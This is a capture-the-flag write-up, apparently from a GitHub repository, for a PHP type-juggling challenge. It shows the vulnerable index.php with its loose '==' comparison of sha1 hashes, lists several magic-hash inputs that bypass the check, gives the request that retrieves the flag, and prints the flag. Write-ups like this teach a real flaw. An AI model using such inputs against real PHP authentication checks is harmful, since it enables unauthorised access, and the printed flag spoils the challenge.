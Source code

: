 # What does clowns do at the circus?

Author: [Ting Hui](https://github.com/ChanTingHui)

## Description

PHP type juggling vulnerability

## Requirements

- PHP
- Docker: [Dockerfile](./Dockerfile)

## Sources

```
find the vulnerability or u gonna waste a lot of time ====, == or =
```

## Exploit
From `index.php`, you can see the default codes.

```php
<?php

if (isset($_GET['hash'])) {
    if ($_GET['hash'] === "10932435112") {
        die('you think it is this easy???.');
    }

    $hash = sha1($_GET['hash']);
    $target = sha1(10932435112);
    if($hash == $target) {
        include('flag.php');
        print $flag;
    } else {
        print "wssqrctf{loser_tryharder}";
    }
} else {
    show_source(__FILE__);
}

?>
```
Firstly, you can see that its requires a match of `hash` and `target`. From there u can see a vulnerability as the comparison of `$hash` and the `$target` and it uses `==` instead of `===` as `==` prompt a vulnerability to type juggling as it does not check the types, instead they are treated as numbers.
For example,
```
'0x123' == '0x845' is true
'0x123' === '0x845' is false
```
Better understanding at:
https://git.linuxtrack.net/Azgarech/PayloadsAllTheThings/blob/master/PHP%20juggling%20type/README.md

Hence, the hash `10932435112` starts with `0e....`, which means any hashes that starts with `0e` will match with the hash. By doing a semi brute force u will be able to find numerous matches of hashes which starts with `0e`.

```
aaroZmOk
aaK1STfY
aaO8zKZF
...
```
Next, pass any hashes into the GET pram at IP:port/?hash=aaroZmOk adnd you will get your flag.
<br />

The flag is:
```
wssqrctf{typ3_juGGl1ng}
```
